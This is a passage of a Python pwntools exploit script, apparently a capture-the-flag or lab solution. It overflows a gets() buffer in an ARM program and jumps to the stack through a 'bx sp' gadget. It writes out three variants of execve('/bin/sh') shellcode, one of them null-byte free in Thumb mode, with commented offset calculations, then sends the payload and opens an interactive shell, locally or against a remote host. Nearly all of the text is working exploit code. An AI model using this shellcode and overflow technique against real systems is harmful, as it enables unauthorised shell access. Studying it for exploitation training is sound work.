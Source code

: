 ```python
        # padding to reach return address
        b'A'*(pad-8),
        # branch to sp, where the shellcode will be
        bx_sp,
    )

    context.clear(arch="arm")

    # although `gets` allows null bytes,
    # I think it is good practice to write
    # null-byte free shellcode

    # null-byte free shellcode
    shellcode1 = asm('''
        .code 32            @ ARM mode
        @ switch to thumb mode (unlocks 16-bit instructions)
        @ to avoid null bytes
        add r3, pc, #1
        bx r3

        .code 16            @ Thumb mode
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2 32-bit instructions (2*4) +
        @ 2*2 (pc points two instructions ahead) = 0x34
        sub r0, pc, #0x34   @ filename: &"/bin/sh" (at pc-0x34)
        eors r1, r1         @ argv: NULL
        eors r2, r2         @ envp: NULL
        movs r7, #11        @ execve syscall
        svc #1              @ invoke syscall
        mov r5, r5          @ NOP (shellcode must be 4 bytes aligned)
    ''')

    # simpler shellcode but with null bytes
    shellcode2 = asm('''
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2*4 (pc points two instructions ahead) = 0x30
        sub r0, pc, #0x30   @ filename: &"/bin/sh" (at pc-0x30)
        mov r1, #0          @ argv: NULL
        mov r2, #0          @ envp: NULL
        mov r7, #11         @ execve syscall
        svc #0              @ invoke syscall
    ''')

    # we can also get lazy and use shellcraft
    shellcode3 = asm(shellcraft.arm.execve(b"/bin/sh\0", 0, 0))

    io.recvline()

    payload += shellcode1

    # `gets`  stops reading when encountering a newline
    assert(b'\n' not in payload)
    io.sendline(payload)

    io.interactive()

def conn():
    if args.REMOTE:
        return remote(HOST, PORT)
```